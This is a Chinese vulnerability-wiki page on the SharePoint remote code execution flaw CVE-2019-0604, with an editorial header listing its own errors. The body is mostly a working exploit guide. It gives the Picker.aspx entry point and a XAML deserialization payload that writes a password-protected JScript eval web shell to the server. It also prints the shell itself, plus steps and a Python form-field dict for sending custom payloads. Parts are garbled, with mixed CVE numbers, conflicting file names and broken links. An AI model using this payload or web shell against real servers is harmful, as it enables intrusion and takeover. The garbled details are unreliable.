

# （CVE-2019-0604）Microsoft SharePoint 远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 简介混0594与0604需分别核根因
- 影响产品列表连字缺分隔
- /Picker.aspx与/_layouts/15路径不一致
- 下载链接换行断裂，图片错误指向1181并带重复残串
- ua.aspx/up.aspx/asxp互相冲突
- Python参数YOUR_PayloadData包星号不可执行，省略必须表单字段
- 工具生成payload会本地触发执行需明确副作用
- 缺权限前提与修复KB

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Microsoft
SharePoint是美国微软（Microsoft）公司的一套企业业务协作平台。该平台用于对业务信息进行整合，并能够共享工作、与他人协同工作、组织项目和工作组、搜索人员和信息。

Microsoft SharePoint
远程代码执行漏洞（CVE-2019-0594、CVE-2019-0604，高危）：Microsoft
SharePoint软件无法检查应用程序包源标记时触发该漏洞。攻击者可在SharePoint应用程序池和SharePoint服务器中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016SharePoint Foundation 2013 SP1harePoint Server 2010 SP2SharePoint Server 2019

三、复现过程
------------

ItemPicker Web 控件实际上从来没有在一个 .aspx
页面中使用过。但是看看它基类型的用法，EntityEditorWithPicker，说明在
/\_layouts/15/Picker.aspx 应该有一个 Picker.aspx 文件使用了它。

该页面要求使用选择器对话框的类型通过 URL 的 PickerDialogType
参数的形式提供。在这里，可以使用以下两种 ItemPickerDialog
类型中的任何一种：

    · Microsoft.SharePoint.WebControls.ItemPickerDialog in             Microsoft.SharePoint.dll
    · Microsoft.SharePoint.Portal.WebControls.ItemPickerDialog in Microsoft.SharePoint.Portal.dll

利用第一种 PickerDialogType 类型

当表单提交 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的值以 "\_\_" 为开头时(类似于"\_dummy")，

EntityInstanceIdEncoder.DecodeEntityInstanceId(string)
处的断点将显示以下情况：而调用另外一种 ItemPickerDialog
类型时，函数调用栈只是在最上面的两个有所不同。

这表明 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的数据最终出现在了
EntityInstanceIdEncoder.DecodeEntityInstanceId(string) 中。
剩下的只需要拷贝实例 ID 和构造一个 XmlSerializer 的 payload 就可以了。

**完整POST以及具体参数如下：**

URL：`/Picker.aspx?PickerDialogType=控件的程序集限定名`

参数：
`ctl00%24PlaceHolderDialogBodySection%24ctl05%24hiddenSpanData=payload`

实际上还需访问Picker.aspx附带的其它参数，测试我不附带其它参数时提交表单是失败的。

poc
---

> https://download.0-sec.org/Web安全/Microsoft
> SharePoint/CVE20190604-Payload.7z

**解说k8gege的cve-2019-0604-exp.py**

老实说k8gege的py脚本有点花哨，一大堆的16进制字符串，分成 payload1,2,3,
好坏呀

python脚本远程post的payload,反序列化之后是一个xml数据体

    <ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:System="clr-namespace:System;assembly=mscorlib"
    xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd</System:String>
            <System:String>/c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" </System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    </ResourceDictionary>

MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

即远程执行echo命令，向服务器SharePoint的模板layouts目录写了一个up.aspx文件

    cmd /c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" 

生成了一个K8飞刀专用UA一句话木马.asxp，OK，shell到手

    <%@ Page Language="Jscript" %>
    <%
    var pwd="tom";
    var uastr=Request.UserAgent;
    if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) 
    {
        var code=uastr.Replace(pwd+"===","");
        eval(code,"unsafe"); 
    };
    %>

### 结合k8的poc构造我们自己的payload

-   1、 下载编译好的程序，解压运行CVE20190604Forms.exe

-   2、在Cmd文本框加输入命令，点击"Update XML"按钮，会将命令合并为xml

-   3、点击"EncodeEntity"，程序将xml字符串序列化为对象，并触发执行payload,
    序列化后的字符串显示在\"payload\"文本框中

```{=html}
<!-- -->
```
    __cp087135009700370047005600d600e2004400160047001600e20035005600270067009600360056003700e2009400e600470056002700e6001600c600e2005400870007001600e60046005600460075002700160......

-   4、 \"\_\_cp\....\" 这些字符串就是payload了，复制到
    cve-2019-0604-exp.py中，修改替换掉原来k8的payload，

-   5、向Picker.aspx提交payload时，需要附带的其它参数，可通过Burp代理工具，获取一下相关的参数，再将payload值传给
    ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData

```{=html}
<!-- -->
```
    ...

    values = {
        '__REQUESTDIGEST':YOUR_REQUESTDIGEST,
        '__EVENTTARGET':'',
        '__EVENTARGUMENT':'',
        '__spPickerHasReturnValue':'',
        '__spPickerReturnValueHolder':'',
        '__VIEWSTATE':YOUR_VIEWSTATE,
        '__VIEWSTATEGENERATOR':'',
        'ctl00$PlaceHolderDialogBodySection$ctl07$queryTextBox':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$hiddenSpanData':**YOUR_PayloadData**,
        'ctl00$PlaceHolderDialogBodySection$ctl05$OriginalEntities':'<Entities />',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityKey':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityDisplayText':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$downlevelTextBox':'&#160;',
        '__CALLBACKID':'ctl00$PlaceHolderDialogBodySection$ctl07',
        '__CALLBACKPARAM':';#;#11;#;#;#',
        '__EVENTVALIDATION':YOUR_EVENTVALIDATION
    }

    data = urllib.urlencode(values)

    ...

-   6、运行py脚本, good luck!!!

参考链接
--------

> https://github.com/boxhg/CVE-2019-0604/
